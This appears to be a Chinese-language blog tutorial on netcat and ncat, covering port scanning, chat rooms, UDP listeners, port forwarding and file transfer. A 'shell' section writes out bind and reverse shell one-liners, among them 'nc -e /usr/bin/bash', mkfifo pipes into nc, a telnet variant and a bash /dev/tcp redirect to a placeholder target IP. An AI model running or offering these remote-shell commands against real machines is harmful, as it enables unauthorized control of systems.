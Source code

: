 ```yaml
---
layout: post
title: NC 的简单应用
description: 瑞士军刀 nc, 你的想象力是局限 nc 的瓶颈
category: opinion
---
```


NC ，不仅代表是 netcat ，还有其加强版 ncat 。

NetCat 是 GNU 开源的网络请求工具， Ncat 是面向21世纪的 netcat，是 Nmap 工具集的一部分，nc 可以用来 读/写 TCP/UDP 网络连接。

nc 不仅可以请求，还能监听 (-l) 网络连接, 不仅支持 TCP 协议，还支持 UDP 协议(-u)，不仅可以在 ipv4 (-4) 网络下进行，还支持 ipv6 (-6)。

```
brew install nmap
```

或者

```
yum install nc
```

即可安装 ncat

## 端口扫描

nc 一开始也最基础的功能，端口连接扫描。

TCP `nc -zv addr port`

UDP `nc -zvu addr port`

> 连接 udp 端口有些不准

## 网络聊天室

nc 主要用来请求并保持一个网络连接，也可以用来监听一个端口。

比如打开一个 TCP 连接，发送 HTTP 协议请求。 `nc IP_address port_numbe` 连接模式。

```
> nc 127.0.0.1 5002
HEAD / HTTP/1.1

HTTP/1.1 200 OK
Etag: 17f803-3de2-5a560fb2
Content-Type: text/html; charset=utf-8
Content-Length: 15842
Last-Modified: Wed, 10 Jan 2018 13:05:54 GMT
Cache-Control: private, max-age=0, proxy-revalidate, no-store, no-cache, must-revalidate
Server: WEBrick/1.3.1 (Ruby/2.4.1/2017-03-22)
Date: Wed, 10 Jan 2018 13:07:21 GMT
Connection: Keep-Alive

GET / HTTP/1.1

HTTP/1.1 200 OK
Etag: 17f803-3de2-5a560fb2
Content-Type: text/html; charset=utf-8
Content-Length: 15842
Last-Modified: Wed, 10 Jan 2018 13:05:54 GMT
Cache-Control: private, max-age=0, proxy-revalidate, no-store, no-cache, must-revalidate
Server: WEBrick/1.3.1 (Ruby/2.4.1/2017-03-22)
Date: Wed, 10 Jan 2018 13:07:30 GMT
Connection: Keep-Alive

<!DOCTYPE html>
<html>
<head>
...
```

使用 `nc -l IP_address port_numbe` 监听模式。

一个终端使用 `nc -l 127.0.0.1 8090` 开启监听，一个终端使用 `nc 127.0.0.1 8090` 保持连接，即可进行聊天室功能。

但是这样只能点对点双方交流，不能进行多方交流，且建立连接之后任意一方断开连接，则双方都会终止。在 ncat 中新增了订阅者模式，可以由一个 server 提供服务，多个 client 之间相互交流，这样就够搭建一个完整的即时通讯聊天室。

启动 server

```
ncat -l 8888 --broker
```

然后使用多个 client 连接即可。

![ncat_chatroom.png](/images/ncat_chatroom.png)

## UDP 协议支持

开启 UDP 端口监听 `ncat -l -u 8999`

可以使用 `netstat` 查看端口是否开放

```
netstat -tunlp|grep 8999
```

或者使用 netstat 进行通信，建立 UDP 的聊天室。

```
nc -u 127.0.0.1 8999
```

## 反向代理

除了 nginx 可以做反向代理，nginx 也可以实现一个简单的反向代理服务。

> 其实就是端口转发

```
ncat -l 8089| ncat 127.0.0.1 5002
```

这样只能单向代理，即发往 8089 的流量会被代理至 5002 端口上，但是 5002 端口返回的数据，不能通过 8089 再继续返回给我们。

```
mkfifo /tmp/fifo
cat /tmp/fifo | nc 127.0.0.1 5002 | nc -l 9000 > /tmp/fifo
```

双向代理，亲测 HTTP, MySQL 转发可用。

或者这样

```
ncat -l 8068 -c 'ncat 127.0.0.1 5002
```

## shell

nc 的一个经典应用，分为正向 shell 和反向 shell，分别表示客户端控制服务器，和服务器控制客户端。

### 正向 shell

服务器上 (需要有公网地址)

```
nc -l -p 5555 -t -e /usr/bin/bash
```

客户端

```
nc [host] 5555
```

即可在客户端操纵服务器。

也可以操作 Windows `nc -l -p 5555 -t -e cmd.exe`

正向 shell 也可以这样

```
mkfifo /tmp/fifo
cat /tmp/fifo | /bin/bash -i 2>&1 | nc -l 8000 > /tmp/fifo
```

### 反向 shell

在客户端机器上 (需要有公网地址)

```
nc -lp 5555
```

服务器上

```
nc -t -e /usr/bin/bash [ip] 5555
```

即可在客户端操纵服务器。

反向 shell 也可以这样

```
mkfifo /tmp/fifo
cat /tmp/fifo | /bin/bash -i 2>&1 | nc [ip] 8001 > /tmp/fifo
```

用 Telnet 也可以 `rm bd;mkfifo bd;cat bd|/bin/sh -i 2>&1|telnet  <target IP> <port> >bd`

甚至是 bash `bash -c "bash -i &>/dev/tcp/<target IP>/<port> 0>&1"`

正向 shell 与反向 shell 的区别就在与被操纵者有没有公网地址。

## 传输文件

接收端

```
ncat -lp 3333 > 1.mp4
```

发送端

```
ncat -nv  --send-only [ip] 3333 < 1.mp4
```

或者先起发送端

```
ncat --send-only -lp 3333 <a.mp4
```

再起接收端

```
nc -nv [ip] 3333 >a.mp4
```

## 保持连接

在 nc shell 中，当客户端连接断掉之后就会自动终止，可以通过加参数 `-k` 来保持连接。

正向 shell

```
nc -l -p 5555 -t -e /usr/bin/bash -k
```
